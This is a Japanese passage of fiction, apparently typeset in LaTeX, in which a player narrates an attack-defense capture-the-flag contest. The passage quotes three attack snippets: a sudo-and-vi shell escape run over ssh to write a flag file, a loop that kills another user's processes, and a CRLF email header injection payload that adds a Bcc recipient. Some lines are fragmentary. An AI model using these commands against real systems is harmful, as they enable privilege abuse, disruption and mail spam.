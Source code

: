 うっ、ダメか……。

「おーぴー、ダメだ……」

「分かった、こっちでなんとかする」

おーぴーの期待に添えなかったのは残念だが、
これは恐らく敵もログインしていないのだろう。
昨日、Skypeの会議でおーぴーがフラッグワードを、
確かあれは、

\begin{lstlisting}
$ echo 'sudo -u stage5 /usr/vi -f^M:!echo FLAG >> FLAG' | ssh -t -t stage4@10.0.2.3
\end{lstlisting}

という感じ。
これが出来るのであれば、

\begin{lstlisting}[style=sh]
$ while (true)
do
	echo 'sudo -u stage5 pkill -u stage4' | ssh -t stage4@10.0.2.3;
	sleep 1
done
\end{lstlisting}

という感じで、ログインせずともプロセスは殺せるはず。
これならばPHPのプログラムで仮にプロセスが一発殺されても問題はない。
まあいいや。
とにかく。
俺は。

昨日編集部でメールサーバーは用意しておいた。
後はメールが届くかどうかを調べるだけ。
\url{http://10.0.2.5/message.html}へアクセスして、
に次のメールヘッダ汚染を仕掛ける。

\begin{lstlisting}
hoge%0D%0ABcc: m@192.168.7.4%0D%0A
\end{lstlisting}

これでメールが届けばいいが……。
とりあえず、メールボックスを見ても……来てない……。
これは遅延か失敗か。
どうする……？
もはや策がない……。
る。

長いサイレン音がして、一瞬戦慄した。
まさか？
どうやら落ちたのは。
。
 HTTPD\footnote{Windows向けのHTTPサーバー。\url{http://www.st.rim.or.jp/~nakata/}}%
が動作しているものだったはず。
これはちょっと良くないな。
5ポイント程度なので、
このままでは5分で15ポイント程度ずつ這い寄られることになる。

などと考えているとまたサイレン音が鳴り、
全てのチームが。
なんだと……。
どうなっている？
どうしてキーワードを一つかそこらしかコミットしてないチームまで、
キーワードのコミットを飛ばしてFLAGへ書き込んでるんだ。
いや、これはどう考えても。
あらゆるチームのフラッグワードは公開されているから、
奴等我々の収入を減らすためにあえて他のチームのフラッグワードを。
こうすることで我々が5分ごとに2ポイントになってしまった。
つまり、18ポイントずつ接近されていることになる。

